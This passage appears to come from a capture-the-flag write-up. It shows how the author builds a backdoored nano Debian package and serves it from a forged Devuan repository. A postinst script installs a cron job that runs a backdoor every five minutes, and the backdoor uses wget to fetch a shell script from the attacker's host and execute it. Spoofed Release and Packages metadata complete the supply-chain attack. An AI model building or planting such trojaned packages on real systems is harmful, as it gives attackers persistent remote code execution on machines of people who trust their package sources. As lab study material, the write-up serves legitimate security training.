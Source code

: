 I pick nano as my target for a malicious package: `nano_3.0.0_amd64.deb`

The `postinst` adds a cronjob that executes `/bin/nano_backdoor` every 5 minutes:

```
#!/bin/sh

set -e

if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then
    update-alternatives --install /usr/bin/editor editor /bin/nano 40 \
      --slave /usr/share/man/man1/editor.1.gz editor.1.gz \
      /usr/share/man/man1/nano.1.gz
    update-alternatives --install /usr/bin/pico pico /bin/nano 10 \
      --slave /usr/share/man/man1/pico.1.gz pico.1.gz \
      /usr/share/man/man1/nano.1.gz
fi

crontab -l | { cat; echo "*/5 * * * * /bin/nano_backdoor "; } | crontab -
```

`nano_backdoor` just downloads and executes a shell script from my box:

```
#!/bin/sh
rm /tmp/snowscan.sh
wget http://10.10.14.23/snowscan.sh -O /tmp/snowscan.sh
chmod 777 /tmp/snowscan.sh
/tmp/snowscan.sh
```

The `/devuan/dists/ascii/Release` looks like this:

```
# cat Release
Origin: Devuan
Label: Devuan
Suite: stable
Version: 2.0
Codename: ascii
Date: Wed, 20 Apr 2019 05:00:00 UTC
Architectures:  amd64
Components: main contrib non-free raspi beaglebone droid4 n900 n950 n9 sunxi exynos
SHA256:
 947ab0bff476deda21dbab0c705b14211718ed357d5ca75e707bea4bdc762c59 770 main/binary-amd64/Packages
 7c18ea11cba4acd2a3fdcea314c2b816787cecc4aaad2ae75667553cf700769b 551 main/binary-amd64/Packages.xz
```

The `/devuan/dists/ascii/main/binary-amd64/Packages` file contains the modified version number, updated filename and checksums:

```
# cat Packages
Package: nano
Version: 3.0.0
Installed-Size: 2043
Maintainer: Jordi Mallach <jordi@debian.org>
Architecture: amd64
Replaces: pico
Provides: editor
Depends: libc6 (>= 2.14), libncursesw5 (>= 6), libtinfo5 (>= 6), zlib1g (>= 1:1.1.4)
Conflicts: pico
Homepage: https://www.nano-editor.org/
Description: small, friendly text editor inspired by Pico
Description-md5: 04397a7cc45e02bc3a9900a7fbed769c
Suggests: spell
Tag: implemented-in::c, interface::text-mode, role::program, scope::utility,
 suite::gnu, uitoolkit::ncurses, use::editing, works-with::text
Section: editors
```